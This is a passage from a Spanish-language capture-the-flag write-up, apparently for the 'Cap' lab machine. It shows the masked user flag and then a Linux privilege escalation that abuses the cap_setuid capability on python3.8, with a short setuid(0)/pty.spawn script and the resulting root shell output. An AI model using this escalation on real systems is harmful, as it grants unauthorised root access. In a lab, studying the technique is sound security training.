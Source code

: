 ¡Y sí! Son válidas.

A partir de este punto ya podremos localizar la **flag** `user.txt` en la ruta `/home/nathan/user.txt`:

```bash
nathan@cap:~$ cat /home/nathan/user.txt 
6XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXa
```

# Root.txt

Enumero el sistema de forma **manual**, pero a simple vista no encuentro nada, así que empiezo a enumerar el sistema de forma **más profunda**.

Hasta que me doy cuenta de que hay [capabilities](http://www.etl.it.uc3m.es/Linux_Capabilities){:target="\_blank"}{:rel="noopener nofollow"} asignadas.

```bash
nathan@cap:~$ getcap -r / 2>/dev/null

/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip

[...]

```
Las `capabilities` son permisos **especiales** que podemos asignar a archivos, sirven para asignar **permisos específicos**, algo más seguro que asignar `SUID`.

En este caso, `python` tiene la **capability** `cap_setuid` que nos permite cambiar el `uid` del proceso que ejecutemos con `python`.

Es decir, podemos cambiar el `uid` a `0` que corresponde al usuario `root` y **ejecutar código**.

Con un simple script en `python` podríamos _spawnear_ una shell como **superusuario**:

```bash
#!/usr/bin/python3.8

import os # importamos la libreria os para usar funciones del sistema
import pty # libreria TTY para administrar pseudo-terminales

os.setuid(0) # asignamos el UID a 0 para hacer que root sea propietario del proceso de este script
pty.spawn("/bin/bash") # "spawneamos" una full TTY
```

Al ejecutar este script conseguimos una terminal como usuario **root**:

```bash
nathan@cap:/tmp/privesc$ getcap /usr/bin/python3.8
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip

nathan@cap:/tmp/privesc$ /usr/bin/python3.8 script.py

root@cap:/tmp/privesc# whoami; id
root
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```

